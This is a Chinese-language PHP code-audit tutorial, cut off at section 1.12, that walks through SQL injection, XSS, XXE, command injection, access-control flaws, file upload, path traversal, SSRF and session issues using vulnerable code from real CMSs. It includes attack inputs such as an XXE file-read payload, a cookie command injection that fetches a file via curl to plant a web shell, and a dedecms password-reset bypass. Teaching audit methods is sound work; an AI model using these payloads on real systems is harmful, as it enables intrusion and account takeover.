

PHP代码审计
==========

# 1. 输入输出数据验证

## 1.1  SQL注入

### 1.1.1 漏洞描述   

&emsp;&emsp;当应用程序将用户输入的内容，拼接到SQL语句中，一起提交给数据库执行时，就会产生SQL注入威胁。攻击者通过控制部分SQL语句，可以查询数据库中任何需要的数据，利用数据库的一些特性，甚至可以直接获取数据库服务器的系统权限。

### 1.1.2 审计方法

&emsp;&emsp;PHP和MySQL的组合是最常见的，不过由于PHP的一些特性，它在发生 SQL 注入的时候危害比其它脚本语言（JSP/ASP）要小一些。因为默认情况PHP选项的magic_quotes_gpc是打开的，那么SQL注入所需要的单引号、双引号等会被反斜杠转义。另外PHP的mysql_query()函数只允许执行一条SQL语句，这个特性也相对降低了SQL注入的风险。PHP程序员最容易出现SQL注入的地方就是在构造一些存在整数字段的 SQL 语句，比如：

```sql
select  * from test where id=$id 攻击者可以利用这个$id 变量做文章，进行 SQL 注入攻击
```

&emsp;&emsp;这里举例说明一个CMS的漏洞产生逆向回溯SQL注入。如下，cms的整体结构：


&emsp;&emsp;其中存在一个SQL注入的拦截方法：

```php
//注入拦截
function CS_Request($pi_strName, $pi_Def = "", $pi_iType = CS_TXT)//拦截方法为CS_Request
{
  if ( isset($_GET[$pi_strName]) ) 
    $t_Val = trim($_GET[$pi_strName]);
  else if ( isset($_POST[$pi_strName]))
    $t_Val = trim($_POST[$pi_strName]);
  else 
    return $pi_Def;

  // INT
  if ( CS_INT == $pi_iType)
  {
    if (is_numeric($t_Val))
      return $t_Val;
    else
      return $pi_Def;
  }
  
  // String 字符串拦截替换，这里效果很好
  $t_Val = str_replace("&", "&amp;",$t_Val); 
  $t_Val = str_replace("<", "&lt;",$t_Val);
  $t_Val = str_replace(">", "&gt;",$t_Val);
  if ( get_magic_quotes_gpc() )
  {
    $t_Val = str_replace("\\\"", "&quot;",$t_Val);
    $t_Val = str_replace("\\''", "&#039;",$t_Val);
  }
  else
  {
    $t_Val = str_replace("\"", "&quot;",$t_Val);
    $t_Val = str_replace("'", "&#039;",$t_Val);
  }
  return $t_Val;
}

```

 &emsp;&emsp;可以从代码看到，只要在代码中调用了此方法，基本无法注入，现在的关键是所有的输入都进行了拦截器的调用吗，这里就需要对输入点进行搜索，这里我们可以先搜索GET方法：


&emsp;&emsp;这里正好搜到一个输入点：



&emsp;&emsp;我们已经知道了拦截器是CS_Request，所以只要没调用此方法的输入点，极有可能存在SQL注入漏洞，我们看一下代码：

```php
include_once("../lib/cs_conn.php");
include_once("../lib/cs_common.php");//引入拦截器
if(CS_Ucmode==1){
 include_once("../lib/cs_config_uc.php");
 include_once("../lib/client/client.php");
```

&emsp;&emsp;专集制作的函数代码：

 ```php
 function TOPIC(){
         if(isset($_COOKIE["cs_name"])){
 	   $cscms_name=$_COOKIE["cs_name"];
 	}else{
 	   exit(Msg_Error('你还没有登入或者登入已经超时!','login.php'));
 	}
 	$op=CS_Request("op");
 	$id=CS_Request("id");
 	$CS_Name=CS_Request("CS_Name");
 	$CS_CID=CS_Request("CS_CID");
 	$CS_FID=CS_Request("CS_FID");
 	$CS_YID=CS_Request("CS_YID");
 	$CS_Pic=CS_Request("CS_Pic");
 	$CS_Tags=trim($_POST["CS_Tags"]);
 	$CS_AliasName=CS_Request("CS_AliasName");
 	$CS_Fxgs=CS_Request("CS_Fxgs");
 	$CS_Diqu=CS_Request("CS_Diqu");
 	$CS_Yuyan=CS_Request("CS_Yuyan");
 	$CS_Year=CS_Request("CS_Year");
 	$CS_Content=CS_Request("CS_Content");
         if($CS_FID!=0) $CS_CID=$CS_FID;
         global $db;
 
         if($op=='add'){ //新增
              if(empty($CS_Name)||empty($CS_CID)||empty($CS_Tags)||empty($CS_Pic)||empty($CS_AliasName)) exit(Msg_Error('抱歉,请把资料填写完整!','javascript:history.go(-1);'));
              //入库
 	     $sql="insert into ".Getdbname('topic')." (cs_user,cs_yid,cs_name,cs_cid,cs_pic,cs_tags,cs_aliasname,cs_fxgs,cs_diqu,cs_yuyan,cs_year,cs_content,cs_addtime) values ('".$cscms_name."',1,'".$CS_Name."',".$CS_CID.",'".$CS_Pic."','".$CS_Tags."','".$CS_AliasName."','".$CS_Fxgs."','".$CS_Diqu."','".$CS_Yuyan."','".$CS_Year."','".$CS_Content."','".date('Y-m-d H:i:s')."')";
 	     if($db->query($sql)){
 	        $row=$db->getrow("Select * from ".Getdbname('topic')." where CS_Name='".$CS_Name."'");
                 //*********分享到腾讯微薄********//
                   require_once("open/qq/common.php");
                   $linkurl="http://".CS_WebUrl.LinkUrl('show','zj','id',$row['CS_CID'],$row['CS_ID']);
                   $title="我刚刚在“".CS_WebName."”制作了专集[ ".$CS_Name." ]非常好听哦！ 感谢支持！";
                   $ret = add_share($title,$linkurl,CS_WebName,CS_WebName);
 
                  //产生动态
 		     $sqldt="insert into ".Getdbname('dt')." (cs_user,cs_cid,cs_did,cs_title,cs_addtime) values ('".$cscms_name."',4,".$row['CS_ID'].",'".$CS_Name."','".date('Y-m-d H:i:s')."')";
 		     $db->query($sqldt);
 
 	         exit(Msg_Error('恭喜您，专集成功了，请等待管理员审核!','space.php?ac=topic'));
 
              }else{
 	         exit(Msg_Error('抱歉，专集添加失败!','javascript:history.go(-1);'));
              }
 
         }elseif($op=='edit'){ //修改
               $sql="update ".Getdbname('topic')." set cs_name='".$CS_Name."',cs_cid=".$CS_CID.",cs_pic='".$CS_Pic."',cs_tags='".$CS_Tags."',cs_fxgs='".$CS_Fxgs."',cs_diqu='".$CS_Diqu."',cs_yuyan='".$CS_Yuyan."',cs_year='".$CS_Year."',cs_content='".$CS_Content."',cs_addtime='".date('Y-m-d H:i:s')."' where cs_id=".$id." and cs_user='".$cscms_name."'";
               if($db->query($sql)){
 	         exit(Msg_Error('恭喜您，专集修改成功了!','space.php?ac=topic'));
               }else{
 	         exit(Msg_Error('抱歉，专集修改失败!','javascript:history.go(-1);'));
               }
 
         }elseif($op=='zjadd'){
 	    $tid=CS_Request("tid");
 	    $id=trim($_GET["id"]);//Get方法接收id
                if($db->query("update ".Getdbname('dance')." set CS_TID=".$tid." where cs_user='".$cscms_name."' and CS_ID in (".$id.")")){
 	            exit(Msg_Error('恭喜您，加入成功了!','javascript:history.go(-1);'));
                }else{
 	            exit(Msg_Error('抱歉，加入失败了!','javascript:history.go(-1);'));
                }
         }elseif($op=='zjdel'){
 	    $tid=CS_Request("tid");
 	    $id=trim($_GET["id"]);
                if($db->query("update ".Getdbname('dance')." set CS_TID=0 where cs_user='".$cscms_name."' and CS_ID in (".$id.")")){
 	            exit(Msg_Error('恭喜您，移除成功了!','javascript:history.go(-1);'));
                }else{
 	            exit(Msg_Error('抱歉，移除失败了!','javascript:history.go(-1);'));
                }
         }
 }
 
 ```

&emsp;&emsp;这里看到了吧，输入的参数id没有调用CS_Request，直接在SQL语句中执行。接下来要确定测试URL了，我们看到了其中漏洞方法是专集制作，所以在这个模块存在SQL注入了，那怎么确定url路由信息呢，一般找路由配置文件common.php,在路由配置文件中搜索存在漏洞的方法名topic，其中注入的url为user/space.php?ac=topic&op=zjadd&tid=2222&id=1，编辑一个专集即可进行注入操作。

## 1.2  跨站脚本攻击

### 1.2.1 漏洞描述

&emsp;&emsp;产生跨站脚本的原因是因为 CGI 程序没有对用户提交的变量中的 HTML 代码进行过滤或转换，那么攻击者可能嵌入一些恶意的脚本对其他用户进行攻击。跨站脚本的漏洞并不影响服务端，只影响服务端程序的其他用户。 跨站脚本的危害主要是获取其他用户 Cookie 中的敏感数据以及与浏览器漏洞结合，对其他用户进行修改系统设置、查看系统文件、执行系统命令等攻击。

### 1.2.2 审计方法

&emsp;&emsp;跨站脚本攻击（XSS）漏洞的审计这里依然有敏感函数溯源审计和项目代码通读全文，一般而言，对于XSS漏洞，我们可以搜素echo等输出函数，然后对参数进行逆向追踪得到相应的参数处理流程。

&emsp;&emsp;由于XSS漏洞非常常见，且离不开echo等输出函数，所以我们对审计只要做到查看参数的入口和输出，即可实现对参数的XSS漏洞的审计，如下某CMS的接口存在XSS漏洞：

 ```php
 //以下是QQ私密接口
 if($_ GET ["openid"]) {
 //授权成功后，会返回用户的openid//检查返回的openid是否是合法id
 //echo $_ GET ["oauth_ signature"] ;
 if (!is_ valid_ openid($_ GET ["openid"], $_ GET ["timestamp"], $_ GET ["oauth_signature"]))
 showerr('API帐号有误!') ;//demo对错误简单处理
 echo "###invalid openid\n" ;
 echo "sig:".$_ GET["oauth_ signature"] ."\n";
 exit;
 ```

## 1.3  XML外部实体注入

### 1.3.1 漏洞描述

&emsp;&emsp;XXE Injection即XML External Entity Injection,也就是XML外部实体注入攻击.漏洞是在对非安全的外部实体数据进行处理时引发的安全问题。

&emsp;&emsp;在XML1.0标准里,XML文档结构里定义了实体(entity)这个概念.实体可以通过预定义在文档中调用,实体的标识符可访问本地或远程内容.如果在这个过程中引入了”污染”源,在对XML文档处理后则可能导致信息泄漏等安全问题。

### 1.3.2 审计方法

&emsp;&emsp;对于XXE漏洞，我们审计的要点首先查看羡慕中是否包含XML解析的代码，然后有针对性的进行审计，确定项目中是否包含XML解析的代码可以通过搜素关键词XML，XML函数simplexml_load_string等方式，XML注入有些没有回显，对于没有回显的XML漏洞，我们确定漏洞时需要更多的方式。如利用DNSlog等进行验证漏洞是否存在。

&emsp;&emsp;这里有一个XML外部实体注入的案例，如下代码：

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

&emsp;&emsp;客户端构造以下payload即可实现XML外部实体的注入：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

## 1.4  命令注入

### 1.4.1 漏洞描述

&emsp;&emsp;命令执行漏洞是指可以执行系统或者应用指令（CMD命令或者bash命令）的漏洞，PHP的命令执行漏洞主要由于一些函数的参数过滤不严导致，可以执行命令的函数有system()，exec()，shell_exec()，passthru()，popen()，proc_open(),总共7个函数，另外反引号也可以执行命令，不过世界上这种方式也是调用shell_exec()函数。php代码执行是继承WebServer用户的权限，这个用户一般有权限向web目录写文件，所以危害性较大。

### 1.4.2 审计方法

 &emsp;&emsp;命令执行漏洞最多出现在包含环境包的应用里，类似于eyou(亿邮)这类产品，直接在系统安装即可启动自带的Web服务和数据库服务，--般这类的产品会有一-些额外的小脚本来协助处理日志以及数据库等，Web应用会有比较多的点之间使用system()、exec()、shell_ exec()、passthru()、 pcntl_ exec()、 popen()、 proc_ open() 等雨数执行系统命令来调用这些脚本，用得多了难免就会出现纰漏导致漏洞，这类应用可以直接在代码里搜这几个函数，收获应该会不少。除了这类应用，还有像discuz等应用也有调用外部程序的功能，如数据库导出功能，曾经就出现过命令执行漏洞，因为特征比较明显，所以可以直接搜函数名即可进行漏洞挖掘。

&emsp;&emsp;这里举例亿邮邮件系统的一个命令注入代码审计的案例：

&emsp;&emsp;打开文件：文件/user/autoComplete.php

```php
$arr = explode("&",$_COOKIE["USER"]);
//--验证cookie。
for($i=0;$i<count($arr);$i++)
{
    if(ereg("^SKIN=(.*)$",$arr[$i],$reg))
    {
        $skin = trim($reg[1]);
    }
    if(ereg("^UID=(.*)$",$arr[$i],$reg))
    {
        $uid  = trim($reg[1]);
    }
    if(ereg("^DOMAIN=(.*)$",$arr[$i],$reg))
    {
        $domain  = trim($reg[1]);
    }
    if(ereg("^TOKEN=(.*)$",$arr[$i],$reg))
    {
        $token  = trim($reg[1]);
    }
}
$part = $_GET['s'];
//$uid = "support";
//$domain = "**.**.**.**";
$users = readAddress($uid, $domain);
```

&emsp;&emsp;直接从cookie中获取参数USER，然后赋值给uid和domain

&emsp;&emsp;看看函数readAddress($uid, $domain);

```php
function readAddress($uid,$domain){
    $binary = array();
    $userDir = getUserDir($uid,$domain);
    $addressDir = trim($userDir, "\n\r ")."/Profile/alias.individual";
    if(!is_file($addressDir)) return false;
    $fp = fopen($addressDir, "r");
    if(!$fp){ 
                echo "打开地址薄失败";
                exit;
        }
    while(false != ($content = fgets($fp, 568))){
        $binary[] =unpack("a20nick_name/a40email/a40name/a60h_street_address/a30h_city/a30h_province/a8h_zip/a20h_country/a16h_phone/a30c_company/a60c_street_address/a30c_city/a30c_province/a8c_zip/a20c_country/a16c_phone/a16pager/a16cellular/a16fax/a20icq/a30other/a5b_year/a3b_month/a3b_day",$content);
    }
    //var_dump($binary);
   return $binary;
}
```

&emsp;&emsp;最后，uid和domain又进入了函数getUserDir($uid,$domain）我们继续跟进getUserDir

```php
function getUserDir($uid, $domain) {
    $handle = popen("/var/eyou/sbin/hashid $uid $domain", 'r');
    $read = fread($handle, 2096);
    pclose($handle);
    return $read;
}
```

&emsp;&emsp;最后uid和domain进入了popen $handle = popen("/var/eyou/sbin/hashid $uid $domain", 'r');这里的/var/eyou/sbin/hashid是亿邮系统执行命令的此时，uid和domain没有经过任何过滤直接进入了命令，导致任意命令执行。

&emsp;&emsp;我们构造payload的cookie数据：UID=1|curl http://**.**.**.**/test.txt>>testfortest.php就可以实现getshell了。

## 1.5  水平越权

### 1.5.1 漏洞描述

&emsp;&emsp;水平越权漏洞，是一种“基于数据的访问控制”设计缺陷引起的漏洞。由于服务器端在接收到请求数据进行操作时，没有判断数据的所属人，而导致的越权数据访问漏洞。如服务器端从客户端提交的request参数（用户可控数据）中获取用户id，恶意攻击者通过变换请求ID的值，查看或修改不属于本人的数据。

### 1.5.2 审计方法

1.参数是否用户可控

2.是否进行了鉴权操作

3.是否在操作数据时，用户标识是否由session中获取。

&emsp;&emsp;这里举一个PHP语言的业务逻辑漏洞代码段，代码采用thinkphp的面向对象型MVC框架开发：

```php
public function address($addrId){
        $address =Address::get($addrId);
        if (request()->isGet()){
            return $address;
        }else if(request()->isPost()){
           // 此为产生漏洞的代码
           $result =$address->allowField(true)->save($_POST);
           if(input('post.ismain') ==1){
                $userAddress = Address::where('yunsu_id',$this->getUserId($_SERVER['HTTP_TOKEN']))->where('address_id','neq',$addrId)->where('ismain',1)->select();
                foreach($userAddress as $item){
                    $item->ismain = 0;
                    $item->save();
                }
           }
			...
```

&emsp;&emsp;跟踪getUserInfo方法：

```php
public function getUserInfo($token)
{
    if (!$token) {
        $this->api(404, null, 'require token');
    }
    return Cache::get($token);
}
```

&emsp;&emsp;分析代码，跟踪关键函数可以看到当收到get请求返回对应addrId的收货地址，而收到post请求后则根据addrId的收货地址，而收到post请求后则根据addrId修改收货地址。该行代码漏洞其一是没有对用户的输入进行验证便直接通过$_POST获得用户传来的参数。其二是虽然在基类中调用了getUserInfo方法对用户传来的token进行验证，但这只验证了请求是否来自已注册的用户，而没有验证该用户是否有权限更改收货地址。所以黑客可以通过构造一个post请求就可修改任意用户的收货地址。

## 1.6  垂直越权

### 1.6.1 漏洞描述

&emsp;&emsp;垂直越权，也称权限提升，是一种“基于URL的访问控制”设计缺陷引起的漏洞。由于Web应用程序没有做权限控制或者仅在菜单上做了权限控制，导致的恶意用户只要猜测其他管理页面的URL，就可以访问或控制其他角色拥有的数据或页面，达到权限提升目的。

### 1.6.2 审计方法

+ 是否设置了权限控制

&emsp;&emsp;垂直越权是一种URL的访问控制设计缺陷引起的漏洞，由于未对URL设定严格的用户访问控制策略，导致普通用户也可以通过发送请求的方式访问本应仅高权限用户才可访问的页面。

&emsp;&emsp;这里举例dedecms前台修改任意用户密码的垂直越权漏洞，这个漏洞的前提是需要开启用户注册的功能，造成的危害是能够修改前台部分用户的密码，这部分用户是那些没有设置密保问题的用户。前台管理员密码虽然也没有设置密保问题，但是由于dedecms本身的功能即使修改密码也是无法登录的。

&emsp;&emsp;dedecms重置密码的原理是给重置密码的用户发送一个重置密码的链接。那么在进行重置密码时，修改为其他的用户就能够修改其他用户的密码了，所以本质上来说这是一个越权漏洞。

&emsp;&emsp;假设dedecms已经开启了用户注册的功能，用户重置密码的的URL是为http://localhost/member/resetpassword.php。对应于源码的位置是member/resetpassword.php。

&emsp;&emsp;safequestion分析：在member/resetpassword.php中存在三个重置密码的方法，分别是getped、safequestion、getpasswd。而本次的漏洞与safequestion有关。

&emsp;&emsp;分析safequestion方法代码：

```php
else if($dopost == "safequestion")
{
    $mid = preg_replace("#[^0-9]#", "", $id);
    $sql = "SELECT safequestion,safeanswer,userid,email FROM #@__member WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(empty($safequestion)) $safequestion = '';
    if(empty($safeanswer)) $safeanswer = '';
    if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
    {
        sn($mid, $row['userid'], $row['email'], 'N');
        exit();
    }
    else
    {
        ShowMsg("对不起，您的安全问题或答案回答错误","-1");
        exit();
    }
}
```

&emsp;&emsp;其中有几个关键的验证，如empty($safequestion)、empty($safeanswer)、if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)。首先我们需要知道，一个没有设置密保问题的用户，默认的safequestion和safeanswer结果。

&emsp;&emsp;sn函数分析跟踪进入到member/inc/inc_pwd_functions.php:sn()中：

```php
function sn($mid,$userid,$mailto, $send = 'Y')
{
    global $db;
    $tptim= (60*10);
    $dtime = time();
    $sql = "SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(!is_array($row))
    {
        //发送新邮件；
        newmail($mid,$userid,$mailto,'INSERT',$send);
    }
    //10分钟后可以再次发送新验证码；
   elseif($dtime - $tptim > $row['mailtime'])
    {
        newmail($mid,$userid,$mailto,'UPDATE',$send);
    }
    //重新发送新的验证码确认邮件；
    else
    {
        return ShowMsg('对不起，请10分钟后再重新申请', 'login.php');
    }
}
```

&emsp;&emsp;进入到sn()函数之后，会执行SELECT * FROM #@__pwd_tmp WHERE mid = '$mid',此条SQL语句查询的是dede_pwd_tmp,此表存储的就是重置密码的临时KEY。由于此时没有重置密码，所以没有对应此用户的记录。

&emsp;&emsp;进入到第一个判断newmail($mid,$userid,$mailto,'INSERT',$send);中，newmail函数分析追踪进入到member/inc/inc_pwd_functions.php:newmail()中

```php
function newmail($mid, $userid, $mailto, $type, $send)
{
    global $db,$cfg_adminemail,$cfg_webname,$cfg_basehost,$cfg_memberurl;
    $mailtime = time();
    $randval = random(8);
    $mailtitle = $cfg_webname.":密码修改";
    $mailto = $mailto;
    $headers = "From: ".$cfg_adminemail."\r\nReply-To: $cfg_adminemail";
    $mailbody = "亲爱的".$userid."：\r\n您好！感谢您使用".$cfg_webname."网。\r\n".$cfg_webname."应您的要求，重新设置密码：（注：如果您没有提出申请，请检查您的信息是否泄漏。）\r\n本次临时登陆密码为：".$randval." 请于三天内登陆下面网址确认修改。\r\n".$cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&id=".$mid;
    if($type == 'INSERT')
    {
        $key = md5($randval);
        $sql = "INSERT INTO `#@__pwd_tmp` (`mid` ,`membername` ,`pwd` ,`mailtime`)VALUES ('$mid', '$userid',  '$key', '$mailtime');";
        if($db->ExecuteNoneQuery($sql))
        {
            if($send == 'Y')
            {
                sendmail($mailto,$mailtitle,$mailbody,$headers);
                return ShowMsg('EMAIL修改验证码已经发送到原来的邮箱请查收', 'login.php','','5000');
            } else if ($send == 'N')
            {
                return ShowMsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
            }
        }
        else
        {
            return ShowMsg('对不起修改失败，请联系管理员', 'login.php');
        }
    }
```

&emsp;&emsp;进入到$type == 'INSERT'中，生成一个临时KEY,$key = md5($randval);,然后插入到数据库中，$sql = "INSERT INTO #@__pwd_tmp (mid ,membername ,pwd ,mailtime)VALUES ('$mid', '$userid', '$key', '$mailtime');";。接下来根据参数$send的值判断是将重置密码的链接通过邮箱发送还是直接跳转。这个参数最开始是在$dopost == "safequestion"中设置的，默认值是N，那么就会将对应id的密码返回。

&emsp;&emsp;拿到重置链接直接在浏览器中访问就可以修改此id对应用户的密码了。member/resetpassword.php POST提交：dopost=safequestion&safequestion=0.0&safeanswer=&id=用户ID

## 1.7  任意文件上传

### 1.7.1 漏洞描述

&emsp;&emsp;文件上传功能允许用户将本地的文件通过Web页面提交到网站服务器上，但是如果不对用户上传的文件进行合法性验证，则攻击者可利用Web应用系统文件上传功能（如文件上传、图像上传等）的代码缺陷来上传任意文件或者webshell，并在服务器上运行，以达到获取Web应用系统控制权限或其他目的。

### 1.7.2 审计方法

* 是否检查了上传文件的文件类型

* 是否限制了文件上传路径

* 是否对文件进行了重命名

&emsp;&emsp;当系统提供的文件上传功能未对上传文件的类型做限制，直接将用户上传的文件保存在Web服务器可解析脚本的目录，这就导致了攻击者可直接上传webshell来获取服务器的控制权限。

&emsp;&emsp;任意文件上传代码案例1：

```php
<?php 
if( isset( $_POST[ 'Upload' ] ) ) { 
    // Where are we going to be writing to? 
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; 
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); 
    // Can we move the file to the upload folder? 
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { 
        // No 
        echo '<pre>Your image was not uploaded.</pre>'; 
    } 
    else { 
        // Yes! 
        echo "<pre>{$target_path} succesfully uploaded!</pre>"; 
    } 
} 
?>
```

&emsp;&emsp;basename(path,suffix)函数返回路径中的文件名部分，如果可选参数suffix为空，则返回的文件名包含后缀名，反之不包含后缀名。可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

&emsp;&emsp;任意文件上传代码案例2：

```php
<?php 
if( isset( $_POST[ 'Upload' ] ) ) { 
    // Where are we going to be writing to? 
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; 
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); 
    // File information 
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ]; 
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ]; 
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ]; 
    // Is it an image? 
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) && 
        ( $uploaded_size < 100000 ) ) { 
        // Can we move the file to the upload folder? 
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { 
            // No 
            echo '<pre>Your image was not uploaded.</pre>'; 
        } 
        else { 
            // Yes! 
            echo "<pre>{$target_path} succesfully uploaded!</pre>"; 
        } 
    } 
    else { 
        // Invalid file 
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>'; 
    } 
} 
?>
```

&emsp;&emsp;可以看到代码对上传文件的类型、大小做了限制，要求文件类型必须是jpeg或者png，大小不能超过100000B，所以这里可以通过代理的方式修改文件类型即可绕过检测。修改的HTTP数据为Content-Type为image/jpeg

## 1.8  路径遍历

### 1.8.1 漏洞描述

&emsp;&emsp;路径遍历，即利用路径回溯符“../”跳出程序本身的限制目录实现下载任意文件。例如Web应用源码目录、Web应用配置文件、敏感的系统文件（/etc/passwd、/etc/paswd）等。

&emsp;&emsp;一个正常的Web功能请求：

&emsp;&emsp;http://www.test.com/lownload.php?file=test.php

&emsp;&emsp;如果Web应用存在路径遍历漏洞，则攻击者可以构造以下请求服务器敏感文件：

&emsp;&emsp;http://www.test.com/lownload.php?file1=../../../../../../../../../../../../etc/passwd

### 1.8.2 审计方法

- 参数是否用户可控

- 是否配置了全局过滤器

- 是否判断了文件下载的权限

- 是否判断了文件下载路径

&emsp;&emsp;这里举例dvwa的File Inclusion

```php
<php
//Thepagewewishtodisplay
$file=$_GET['page'];
//Inputvalidation
$file=str_replace(array("http://","https://"),"",$file);
$file=str_replace(array("../","..\""),"",$file);
>
```

可以看到代码用了str_replace函数，对page参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。但这里可以利用…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./xampp/htdocs/dvwa/php.ini来绕过检测。

## 1.9  服务器端请求伪造

### 1.9.1 漏洞描述

&emsp;&emsp;服务端请求伪造攻击（SSRF）也成为跨站点端口攻击，是由于一些应用在向第三方主机请求资源时提供了URL并通过传递的URL来获取资源引起的，当这种功能没有对协议、网络可信便捷做好限制时，攻击者可利用这种缺陷来获取内网敏感数据、DOS内网服务器、读文件甚至于可获取内网服务器控制权限等。

### 1.9.2 审计方法

1. 参数是否用户可控

2. 是否限制了请求范围
3. 是否限制了请求协议

4. 关键词file_get_contents等

&emsp;&emsp;服务器端请求伪造是由服务器端发起的资源请求，根据URL从其他服务主机获取相关资源。若发起请求的URL可由攻击者来控制，那么就会导致服务端请求伪造攻击。

&emsp;&emsp;如下是PHP程序中常见的一个接收客户端URL，并将服务器资源的URL资源返回到浏览器端的功能：

```php
<?php
if (isset($_POST['url'])) 
{ 
$content = file_get_contents($_POST['url']); 
$filename ='./images/'.rand().';img1.jpg'; 
file_put_contents($filename, $content); 
echo $_POST['url']; 
$img = ""; 
} 
echo $img; 
?>
```

&emsp;&emsp;这段代码使用file_get_contents函数从用户指定的url获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。这样我们就可以构造http://www.example.com/index.php?url=http://10.0.1.2:80来判断内网服务器10.0.1.2是否开放了80端口。

## 1.10    Session安全

### 1.10.1 漏洞描述

&emsp;&emsp;Session是应用系统对浏览器客户端身份认证的属性标识，若未进行安全地管理，如会话认证时间过长、退出系统或注销时未彻底销毁会话标识，则会存在会话固定、信息泄露、session注入等安全问题。

### 1.10.2 审计方法

- 登录后是否对sessionid进行了更新

- 注销时是否销毁了session和浏览器sessionid

- 是否存在sessionid泄露，如在URL中引用

- 存储session值的时候，是否存在sessioin注入的问题

&emsp;&emsp;审计特征为搜索项目中关于session处理的代码，然后进行安全审计和测试。对于session，常见的漏洞有会话固定，即服务端未及时销毁session会话信息，造成了其他用户可能利用其他用户的会话信息进行非法操作。

&emsp;&emsp;这里依然举例说明session会话固定漏洞的审计案例：

```php
//login.php
 session_start();
 if (isset($_POST["login"]))
 {
 $link = mysql_connect("localhost", "root", "root")
 or die("无法建立MySQL数据库连接：" . mysql_error());
 mysql_select_db("cms") or die("无法选择MySQL数据库");
 if (!get_magic_quotes_gpc())
 {
 $query = "select * from member where username=’" . addslashes($_POST["username"]) .
 "’ and password=’" . addslashes($_POST["password"]) . "’";
 }
 else
 {
 $query = "select * from member where username=’" . $_POST["username"] .
 "’ and password=’" . $_POST["password"] . "’";
 }
 $result = mysql_query($query)
 or die("执行MySQL查询语句失败：" . mysql_error());
 $match_count = mysql_num_rows($result);
 if ($match_count)
 {
 $_SESSION["username"] = $_POST["username"];
 $_SESSION["password"] = $_POST["password"];
 $_SESSION["book"] = 1;
 mysql_free_result($result);
 mysql_close($link);
 header("Location: http://localhost/index.php?user=" .
 $_POST["username"]);
 }
```

&emsp;&emsp;/index.php session_start();// 打开Session访客的 Session ID 是：echo session_id();

&emsp;&emsp;访客：echo htmlspecialchars($_GET["user"], ENT_QUOTES);book商品的数量：echo htmlspecialchars($_SESSION["book"], ENT_QUOTES);如果登录成功，使用

&emsp;&emsp;$_SESSION["username"] 保存账号

&emsp;&emsp;$_SESSION["password"] 保存密码

&emsp;&emsp;$_SESSION["book"] 保存购买商品数目

&emsp;&emsp;黑客可以使用把session id发给用户的方式，来完成攻击 http://localhost/index.php?user=dodo&PHPSESSID=1234 把此链接发送给dodo这个用户显示 然后攻击者再访问 http://localhost/attack.php?PHPSESSID=1234 后，客户页面刷新，发现商品数量已经成了2000

## 1.11    Cookie安全

### 1.11.1 漏洞描述

&emsp;&emsp;服务器为鉴别客户端浏览器会话及身份信息，会将用户身份信息存储在Cookie中，并发送至客户端存储。若Cookie的设置存在安全问题，如未设置httponly属性、时间过长等，则会存在身份冒用、信息泄露等安全问题。

### 1.11.2 审计方法

- 是否设置了Cookie的有效时间（建议24小时内）

- 是否设置了Cookie的httponly、secure等属性

- Cookie中是否保存了敏感信息

&emsp;&emsp;PHP 的cookie属性主要有setCookie(‘long_Class_name’,’long_php34’,time()+60)

&emsp;&emsp;代码开启特征：

```php
<?php ini_set("session.cookie_httponly", 1); 
 // or session_set_cookie_params(0, NULL, NULL, NULL, TRUE); 
?>
```

&emsp;&emsp;关于PHP中的cookie相关属性，内容的审计其实非常简单，搜索到关键词如cookie，然后看是否保存了敏感信息，是否设置了httponly属性和secure属性即可。关于代码案例这里不在叙说。

## 1.12    错误和异常信息泄露

### 1.12.1 漏洞描述

